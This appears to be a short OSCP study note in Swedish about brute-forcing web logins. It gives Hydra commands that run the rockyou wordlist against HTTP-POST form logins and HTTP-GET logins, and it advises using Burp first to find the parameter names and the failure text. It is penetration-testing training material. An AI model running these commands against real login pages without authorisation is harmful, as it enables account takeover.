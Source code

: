 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/7-password-attacks/2-http-login-attack/","updated":"2024-01-05T11:34:52.326+01:00"}
---
```



### HTTP-POST Attack:
1. Använd Burp för att ta reda på 1. Parameternamnen för inloggningen, och 2. Errortexten vid misslyckad inloggning
2. Exempel Hydra:
```bash
sudo hydra -l <username> -P /usr/share/wordlists/rockyou.txt <ip> http-post-form "/index.php:user=username&password=^PASS^:Login failed. Invalid"
```

### HTTP-GET Attack:
```bash
sudo hydra -l <username> -P /usr/share/wordlists/rockyou.txt -s 80 -f <ip> http-get
```
